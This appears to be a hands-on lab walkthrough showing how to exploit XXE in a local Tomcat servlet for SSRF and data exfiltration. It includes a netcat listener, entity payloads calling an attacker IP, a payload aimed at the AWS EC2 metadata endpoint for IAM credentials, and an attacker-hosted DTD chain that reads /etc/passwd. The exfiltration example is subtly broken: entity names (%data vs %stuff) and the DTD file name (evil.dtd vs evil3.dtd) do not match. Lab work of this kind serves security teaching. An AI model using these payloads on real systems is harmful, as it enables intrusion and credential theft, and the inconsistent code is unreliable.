


# Server-Side Request Forgery (SSRF) via XXE

## Check if SSRF is possible?

1. Start a netcat listener on your local machine

        nc -nlvp 4444

2. Create `test.xml` file with following contents

    ```xml
    <!DOCTYPE doc [
    <!ENTITY % xxe SYSTEM "http://ATTACKER_IP_ADDRESS:4444/attacker-controlled"> 
    %xxe;
    ]>
    ```

    or,

    ```xml
    <!DOCTYPE doc [
    <!ENTITY xxe SYSTEM "http://ATTACKER_IP_ADDRESS:4444/attacker-controlled
    "> 
    ]>

    <a>&xxe;</a>
    ```

    Note: Replace `ATTACKER_IP_ADDRESS` with IP address of attacker machine where the netcat listener is running

3. Find container ID (e.g., `d11d200f5264`) of running Tomcat container

        docker ps -a | grep tomcat

4. Move the contents of `test.xml` file into `employees.xml` file (that resides inside the Tomcat container)

    ```bash
    docker cp test.xml d11d200f5264:/var/tmp/employees.xml
    ```

5. Navigate to http://localhost:1234/HelloXML/HelloXMLServlet

    

6. A successful connection received on the netcat listener would indicate that the target application is vulnerable to server side request forgery (SSRF) attack (via XXE)

    

7. When is it useful? It's useful for port scanning, for accessing a sensitive internal URL that is known to the attacker, or to load malicious contents from an attacker controlled URL.

**Note:**
If the vulnerable code was running in an AWS environment, the following payload could be used to obtain temporary IAM access credentials from the EC2 metadata endpoint `http://169.254.169.254/`

```XML
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```
To understand more about how this EC2 metadata endpoint could be abused, you may read the following blogpost: [From a naive-looking PDF Download to SSRF via HTML Injection in AWS](https://blog.appsecco.com/server-side-request-forgery-via-html-injection-in-pdf-download-90ee4053e911)

## Exfiltrate Data by exploiting SSRF

1. Create `evil.dtd` file. Paste following contents:

    ```XML
    <!ENTITY all "%start;%data;%end;">
    ```

2. As an attacker, serve the malicious DTD file

    ```python
    python3 -m http.server 2122
    ```

3. Create `evil.xml` file, as shown below. Include a link to the malicious DTD file served on attacker's server:

   ```
   <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE Employees [
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % stuff SYSTEM "file:///etc/passwd">
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://ATTACKER_IP_ADDRESS:2122/evil3.dtd">
    %dtd;
    ]>
    <Employees>
            <Employee id="1">
                    <age>29</age>
                    <name>&all;</name>
                    <gender>Male</gender>
                    <role>Java Developer</role>
            </Employee>
            <Employee id="2">
                    <age>35</age>
                    <name>Lisa</name>
                    <gender>Female</gender>
                    <role>CEO</role>
            </Employee>
            <Employee id="3">
                    <age>40</age>
                    <name>Tom</name>
                    <gender>Male</gender>
                    <role>Manager</role>
            </Employee>
            <Employee id="4">
                    <age>25</age>
                    <name>Meghna</name>
                    <gender>Female</gender>
                    <role>Manager</role>
            </Employee>
    </Employees>
   ```

   Note: Replace `ATTACKER_IP_ADDRESS` text with actual IP address

4. Find the container ID (e.g., `d11d200f5264`) of running Tomcat container

        docker ps -a | grep tomcat

5. Move the contents of `evil.xml` file into `employees.xml` file (that resides inside the Tomcat container)

    ```bash
    docker cp evil.xml d11d200f5264:/var/tmp/employees.xml
    ```

6. Navigate to http://localhost:1234/HelloXML/HelloXMLServlet

    

    Notice that the contents of `/etc/passwd` file are dumped onto the screen. Similarly, contents of other sensitive files could also be read.
